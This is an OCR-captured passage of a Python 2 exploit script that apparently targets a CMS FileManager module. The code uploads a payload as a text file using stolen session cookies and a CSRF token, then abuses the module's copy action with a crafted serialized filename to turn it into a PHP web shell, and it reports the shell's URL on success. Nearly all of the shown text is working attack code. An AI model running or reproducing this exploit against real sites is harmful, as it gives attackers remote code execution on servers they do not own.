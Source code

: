 ```hlt:12,15,16,20,21,34,55,80
        "mact": mact,
        csrf_param: csrf_token,
        "disable_buffer": 1
    }
    txt = {
        'm1_files[]': (txt_filename, payload)
    }
    print "[*] Attempting to upload {}...".format(txt_filename)
    response = requests.post(url, data=data, files=txt, cookies=cookies, verify=False)
    status_code = response.status_code
    if status_code == 200:
        print "[+] Successfully uploaded {}".format(txt_filename)
        return True
    print "[-] An error occurred while uploading {}".format(txt_filename)
    return None

def copy_to_php(cookies, csrf_token):
    mact = "FileManager,m1_,fileaction,0"
    page = "/moduleinterface.php"
    url = base_url + page
    b64 = base64.b64encode(txt_filename)
    serialized = 'a:1:{{i:0;s:{}:"{}";}}'.format(len(b64), b64)
    data = {
        "mact": mact,
        csrf_param: csrf_token,
        "m1_fileactioncopy": "",
        "m1_path": upload_dir,
        "m1_selall": serialized,
        "m1_destdir": "/",
        "m1_destname": php_filename,
        "m1_submit": "Copy"
    }
    print "[*] Attempting to copy {} to {}...".format(txt_filename, php_filename)
    response = requests.post(url, data=data, cookies=cookies, allow_redirects=False, verify=False)
    status_code = response.status_code
    if status_code == 302:
        if response.headers['Location'].endswith('copysuccess'):
            print "[+] File copied successfully"
            return True
    print "[-] An error occurred while copying, maybe {} already exists".format(php_filename)
    return None    

def quit():
    print "[-] Exploit failed"
    exit()

def run():
    cookies,csrf_token = authenticate()
    if not cookies:
        quit()
    if not upload_txt(cookies, csrf_token):
        quit()
    if not copy_to_php(cookies, csrf_token):
        quit()
    print "[+] Exploit succeeded, shell can be found at: {}".format(upload_url + '/' + php_filename)

run()
```
